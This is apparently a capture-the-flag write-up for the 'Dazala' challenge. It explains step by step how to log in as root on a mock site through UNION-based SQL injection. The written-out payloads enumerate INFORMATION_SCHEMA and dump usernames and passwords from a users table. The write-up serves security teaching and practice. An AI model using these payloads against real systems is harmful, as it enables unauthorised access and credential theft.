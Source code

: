 # Dazala

## Description
SQL Injection is a very common technique used by attackers to bypass web security. There are a multitude of possible SQL injections.
Dazala, an online product management site, did not secure their code that was written in the 1990s. Can we raise this to their management? If we manage to enter the root account, we might cause a panic.

Log in as the root user!

## Solution

1. I started by finding the number of columns that are being shown. When I used `' order by 4-- -`, there was an error. Thus, we can conlude there are only 3 columns being displayed.
   
2. Now, let's see the different tables and their schemas from which we can find the root user with `cn' UNION select TABLE_NAME,TABLE_SCHEMA,3 from INFORMATION_SCHEMA.TABLES-- -`
   
   <img width="333" alt="image" src="https://github.com/swaathiLaks/Mimosa-Solutions/assets/113973466/f9b27714-2f03-4663-b09c-5c0d541f6ad5">

    There only appears to be 2 columns that may be useful to us.

3. Now let's view the columns in these tables. Use the following injection: `cn' UNION select COLUMN_NAME,TABLE_SCHEMA,3 from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -`

    <img width="328" alt="image" src="https://github.com/swaathiLaks/Mimosa-Solutions/assets/113973466/7f1b5740-95d4-4974-945d-f30f7fe65e30">
  
    It appears the information we need is in the user table in the public schema.

4. Let's find the password for the root user! By using `cn' UNION select username, password, 4 from public.users-- -` you can find the password.
   
     <img width="330" alt="image" src="https://github.com/swaathiLaks/Mimosa-Solutions/assets/113973466/e2cec36a-aad1-4205-9584-e2ed5010f64c">
